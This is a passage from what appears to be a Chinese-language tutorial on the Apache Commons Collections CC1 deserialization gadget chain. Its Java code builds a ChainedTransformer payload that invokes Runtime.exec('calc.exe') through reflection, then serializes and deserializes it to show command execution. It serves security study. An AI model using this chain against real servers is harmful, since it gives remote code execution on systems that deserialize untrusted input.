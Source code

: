 ```java
public class CC1_4 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, IOException {
        //客户端构造payload
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"))),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        //payload序列化写入文件，模拟网络传输
        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(transformerChain);
        //服务端反序列化payload读取
        FileInputStream fi = new FileInputStream("payload.bin");
        ObjectInputStream fin = new ObjectInputStream(fi);
        //服务端反序列化成ChainedTransformer格式，并在服务端自主传入恶意参数input
        Transformer transformerChain_now = (ChainedTransformer) fin.readObject();
        transformerChain_now.transform(null);
    }
}

```
![image.png](http://moonsec.top/articlepic/3976174818bab27521f486cf2a015318.png)
java.lang.Runtime 无法被反序列化。

那怎么解决呢？这里就需要利用反射来获取到当前上下文中的Runtime对象，而不需要直接使用这个类。
```java
Runtime rt = (Runtime) Runtime.class.getMethod("getRuntime").invoke(null);
rt.exec("calc.exe");
```
转成transform写法如下：
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;
import java.util.StringTokenizer;

public class CC1_4 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, IOException {
        //客户端构造payload
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),

```